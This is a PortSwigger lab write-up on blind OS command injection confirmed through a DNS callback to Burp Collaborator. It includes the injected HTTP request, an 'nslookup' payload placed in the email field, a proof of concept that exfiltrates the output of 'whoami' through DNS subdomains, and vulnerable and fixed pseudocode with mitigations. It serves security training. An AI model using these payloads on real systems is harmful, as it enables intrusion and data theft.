


# Lab 04: Blind OS Command Injection with Out-of-Band Interaction

> **Topic**: OS Command Injection
> **Lab Number**: 04
> **Platform**: PortSwigger Web Security Academy

## Category
Blind OS Command Injection — Out-of-Band (OOB) Detection via DNS Callback using Burp Collaborator

## Vulnerability Summary
The feedback submission endpoint passes user-supplied fields to a backend shell command without sanitization. The injection is fully blind — no output appears in the response and no timing difference is observable. By injecting `||nslookup <collaborator-payload>.oastify.com||` into the `email` parameter, the server-side shell executes `nslookup`, triggering a DNS lookup to the attacker-controlled Burp Collaborator domain. Two DNS interactions are received, confirming arbitrary command execution without any in-band signal.

## Attack Methodology

### Step 1: Generate a Burp Collaborator Payload
In Burp Suite, opened the **Collaborator** tab and copied a unique subdomain payload:

```
srnwkyw6cmtgrtyu27i5d481gsmjaayz.oastify.com
```

This subdomain is unique per session — any DNS or HTTP interaction with it is logged by Collaborator and attributed to this test.

### Step 2: Inject `nslookup` Payload into the `email` Parameter

```http
POST /feedback/submit HTTP/2
Host: 0ac1008e046b360c80af2100005c00ae.web-security-academy.net
Cookie: session=4ZXvOZukAvDPpzKm1RExQYOmn76VpdP0
Content-Type: application/x-www-form-urlencoded

csrf=vLSbzZ0WpdEiZqnOhcAB8U8jI7JeYXGM&name=paapibilauta&email=||nslookup srnwkyw6cmtgrtyu27i5d481gsmjaayz.oastify.com||&subject=wolverine&message=husdregfjkhrsdgf
```

The backend shell executes:
```bash
mail ... ||nslookup srnwkyw6cmtgrtyu27i5d481gsmjaayz.oastify.com||
```

- `mail` fails on the invalid `email` value
- `||` causes `nslookup` to run
- `nslookup` performs a DNS resolution of the Collaborator subdomain
- The DNS query travels through the server's resolver to Collaborator's nameserver

Response: `HTTP/2 200 OK` — `{}` (blind, no output)

### Step 3: Observe DNS Interactions in Burp Collaborator

Polled Collaborator and received two DNS lookups:

| # | Time | Type | Payload | Source IP |
|---|------|------|---------|-----------|
| 1 | 2026-May-08 22:56:26.364 UTC | DNS | srnwkyw6cmtgrtyu27i5d481gsmjaayz | 3.248.186.140 |
| 2 | 2026-May-08 22:56:26.365 UTC | DNS | srnwkyw6cmtgrtyu27i5d481gsmjaayz | 3.248.186.169 |

Two DNS lookups (from two different resolver IPs, typical of recursive DNS resolution) confirm the server executed `nslookup` and made an outbound DNS request. Lab solved.





## Technical Root Cause

### Vulnerable Code (Pseudocode)
```python
import subprocess

def submit_feedback(request):
    email = request.POST.get('email')
    subject = request.POST.get('subject')
    message = request.POST.get('message')
    # VULNERABLE: shell=True with unsanitized user input
    subprocess.run(
        f'mail -s "{subject}" {email} <<< "{message}"',
        shell=True
    )
    return JsonResponse({})
```

With `email=||nslookup attacker.com||`, the shell executes:
```bash
mail -s "wolverine" ||nslookup srnwkyw6cmtgrtyu27i5d481gsmjaayz.oastify.com||
```

### Secure Code (Pseudocode)
```python
import subprocess, re

def submit_feedback(request):
    email = request.POST.get('email', '')
    if not re.fullmatch(r'[a-zA-Z0-9._%+\-]+@[a-zA-Z0-9.\-]+\.[a-zA-Z]{2,}', email):
        return HttpResponseBadRequest('Invalid email')
    # No shell — metacharacters are inert
    subprocess.run(['mail', '-s', subject, email], input=message.encode())
    return JsonResponse({})
```

## Impact
- **Confirmed RCE with No In-Band Signal**: OOB techniques work even when the application returns identical responses for all inputs — no timing, no output, no error differences needed
- **Firewall Egress Bypass via DNS**: DNS (port 53) is almost universally allowed outbound. Even in hardened environments, DNS-based OOB often succeeds where HTTP callbacks fail
- **Escalation Path**: DNS confirmation → exfiltrate data in DNS subdomains (`$(whoami).attacker.com`) → HTTP callback with full command output → reverse shell

**Severity: Critical**

## Proof of Concept

**Trigger DNS callback:**
```http
POST /feedback/submit HTTP/2
Content-Type: application/x-www-form-urlencoded

csrf=...&name=x&email=||nslookup YOUR-COLLABORATOR-PAYLOAD.oastify.com||&subject=x&message=x
```

**Expected result:** DNS interaction logged in Burp Collaborator within seconds.

**Data exfiltration via DNS subdomain:**
```
email=||nslookup `whoami`.YOUR-COLLABORATOR-PAYLOAD.oastify.com||
```
The `whoami` output becomes a DNS subdomain label, visible in the Collaborator interaction log.

## Key Takeaways
1. **OOB Is the Last Resort for Truly Blind Injection**: When there's no timing difference, no output, and no error variation, out-of-band channels (DNS, HTTP) are the only way to confirm and exploit blind injection. DNS is the most reliable because it bypasses most egress filters.
2. **Two DNS Lookups Are Normal**: Recursive DNS resolution often involves multiple resolvers. Seeing two lookups from different IPs for the same payload is expected and still counts as a single injection confirmation.
3. **Burp Collaborator Subdomain Uniqueness Matters**: Each payload is unique per test. If Collaborator receives an interaction, it can only have come from the injected request — there's no ambiguity.
4. **DNS Exfiltration Encodes Data in Subdomains**: Command output can be exfiltrated by embedding it as a DNS label: `` nslookup `whoami`.attacker.com `` — the username appears as the subdomain in the DNS query log.

## Mitigation

### 1. Eliminate Shell Execution
```python
subprocess.run(['mail', '-s', subject, email], input=message.encode())
# shell=False — nslookup, curl, wget etc. cannot be injected
```

### 2. Strict Email Validation Before Any Processing
```python
import re
EMAIL_RE = re.compile(r'^[a-zA-Z0-9._%+\-]+@[a-zA-Z0-9.\-]+\.[a-zA-Z]{2,}$')
if not EMAIL_RE.match(email):
    return HttpResponseBadRequest()
```

### 3. Egress Filtering
Block outbound DNS and HTTP from the web application process to external hosts. Use an allowlist of required external endpoints only. This doesn't fix the injection but limits the blast radius and prevents OOB exfiltration.

### 4. Use a Dedicated Mail Service API
Replace shell-based `mail` with an API call to a mail service (SendGrid, SES, etc.) — no shell involved, no injection surface.

## References
- [PortSwigger — Blind OS Command Injection with OOB Interaction](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band)
- [PortSwigger — Blind OS Command Injection via OOB Techniques](https://portswigger.net/web-security/os-command-injection#exploiting-blind-os-command-injection-using-out-of-band-oob-techniques)
- [Burp Suite Collaborator Documentation](https://portswigger.net/burp/documentation/collaborator)
- [OWASP — OS Command Injection Defense Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html)
- [CWE-78: Improper Neutralization of Special Elements used in an OS Command](https://cwe.mitre.org/data/definitions/78.html)

## Tools Used
- Burp Suite Professional (Proxy, Repeater, Collaborator)
- Chromium

---

*Lab completed on: 2026-05-09*  
*Writeup by vibhxr*
